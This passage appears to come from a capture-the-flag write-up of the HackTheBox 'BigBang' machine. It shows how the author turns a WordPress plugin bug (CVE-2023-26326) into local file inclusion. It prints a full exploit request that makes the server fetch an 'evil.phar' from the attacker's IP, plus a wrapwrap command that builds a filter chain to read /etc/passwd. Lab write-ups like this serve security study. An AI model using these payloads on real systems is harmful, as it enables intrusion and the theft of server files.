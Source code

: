 But the exploit can't work because our site is using ```PHP 8.3.2``` and since ```PHP 8+``` there is no longer unserializes meta data automatically and also because Wordpress does not have any deserialisation gadget chains

[phar:// on PHP 8.+](https://php.watch/versions/8.0/phar-stream-wrapper-unserialize)

But we can try to divert the cve to an LFI.

So from the ```cve-2023-26326``` we should do this :

```console
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: blog.bigbang.htb
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 91
Origin: http://blog.bigbang.htb
Connection: keep-alive
Referer: http://blog.bigbang.htb/
Upgrade-Insecure-Requests: 1
Priority: u=0, i

action=upload_image_from_url&url=http://10.10.14.43/evil.phar&id=1&accepted_files=image/gif
```
![alt text](../assets/image_bigbang/evilphar.png)

![alt text](../assets/image_bigbang/burp1.png)

But if we follow the path in the response like the PoC did, it doesnt work.

So we can try LFI by using this [tool](https://github.com/ambionics/wrapwrap.git)

```Generates a php://filter chain that adds a prefix and a suffix to the contents of a file.``` 

```bash
python3 wrapwrap/wrapwrap.py /etc/passwd "GIF89a" "" 10
[!] Ignoring nb_bytes value since there is no suffix
[+] Wrote filter chain to chain.txt (size=1444).
```
```bash
```
